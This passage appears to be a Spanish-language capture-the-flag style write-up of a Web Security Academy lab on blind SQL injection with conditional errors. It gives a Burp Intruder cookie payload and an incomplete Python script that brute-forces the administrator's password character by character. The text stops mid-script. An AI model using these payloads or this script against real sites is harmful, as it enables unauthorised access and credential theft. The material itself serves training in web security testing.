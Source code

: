 18. Ahora, simplemente tienes que volver a ejecutar el ataque para cada una de las otras posiciones de caracteres en la contraseña, para determinar su valor. Para ello, vuelve a la ventana principal de Burp y a la pestaña Posiciones de Burp Intruder, y cambia el desplazamiento especificado de 1 a 2. Entonces deberías ver lo siguiente como el valor de la cookie:
    
    `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELS`

Teniendo en cuenta todo lo anterior haremos un script en python para obtener la contraseña

```python
import requests
from pwn import * 

#Cookie: TrackingId=cUnp1Gkl2HtZ4Jyi; session=dkPDdDnDrJzIT2wJYQGR2CYgbeWn2sMh
host='0a5f00260317a2598084080f008000f7.web-security-academy.net'
letters='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!#$&\()*+-/<=>?@[\\]^_{|}~'
session='vatnhheubjCkJQiDU81szcO7Kn9xoG7A'
TrackingId='0Ae80vwaBWjKDDF2'
url_main=f'https://{host}'
url_request=f'{url_main}/filter?category=Gifts'

#payload = "cUnp1Gkl2HtZ4Jyi' AND (SELECT SUBSTR(schema_name,1,1) FROM information_schema.schemata='u')"

def ctrl_C(signal, frame):
    print('[+] exit')
    exit(1)

def valid_sql_injection():
    payload = "%s' order by 1--" % (TrackingId)
    return send_request(payload)


def get_name_credentials(letters):
    if valid_sql_injection:
        p1=log.progress('Brute Force')
        p2=log.progress('Password')
        password=''
        start=1
        while True:
            for word in letters:
                payload = "%s' ||(SELECT CASE WHEN SUBSTR(password,%d,1)='%s' THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'" %(TrackingId,start,word)
                p1.status('Postition: %d Letters: %s' % (start, word))
                if send_request(payload):
                    password+=word
                    break
                p2.status('%s' % (password))
            if len(password)!=start:
                break
            start+=1

    else:
        print('[+] Error, sql injection not found ')

def send_request(payload):
    
    cookies = {
          'TrackingId': payload,
          'session': session
          }
    #' AND (SELECT ASCII(SUBSTRING(database(),{i},1)))={j}--
    headers = {
          'Host':host ,
          'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
```
